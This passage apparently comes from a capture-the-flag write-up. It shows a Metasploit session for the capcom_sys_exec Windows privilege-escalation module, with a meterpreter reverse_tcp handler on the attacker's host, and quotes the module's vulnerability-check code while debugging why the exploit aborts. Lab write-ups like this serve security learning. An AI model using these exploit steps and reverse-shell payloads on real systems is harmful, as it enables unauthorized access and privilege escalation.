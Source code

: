     msf6 exploit(multi/handler) > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp



#### OS Check

If I try to run this right away, it returns an error:



    msf6 exploit(windows/local/capcom_sys_exec) > run

    [*] Started reverse TCP handler on 10.10.14.6:443 
    [-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system.
    [*] Exploit completed, but no session was created.



It's not immediately clear what that means. I'll find the source:



    oxdf@hacky$ locate capcom_sys_exec.rb
    /opt/metasploit-framework/embedded/framework/modules/exploits/windows/local/capcom_sys_exec.rb



This code seems to be where I'm getting stuck:



        check_result = check
        if check_result == Exploit::CheckCode::Safe || check_result == Exploit::CheckCode::Unknown
          fail_with(Failure::NotVulnerable, 'Exploit not available on this system.')
        end



`check` is defined above in the same file:



      def check
        if sysinfo['OS'] !~ /windows (7|8|10)/i
          return Exploit::CheckCode::Unknown
        end

        if sysinfo['Architecture'] != ARCH_X64
          return Exploit::CheckCode::Safe
        end

        # Validate that the driver has been loaded and that
        # the version is the same as the one expected
        client.sys.config.getdrivers.each do |d|
          if d[:basename].downcase == 'capcom.sys'
            expected_checksum = '73c98438ac64a68e88b7b0afd11ba140'
            target_checksum = client.fs.file.md5(d[:filename])

            if expected_checksum == Rex::Text.to_hex(target_checksum, '')
              return Exploit::CheckCode::Appears
            end
          end
        end

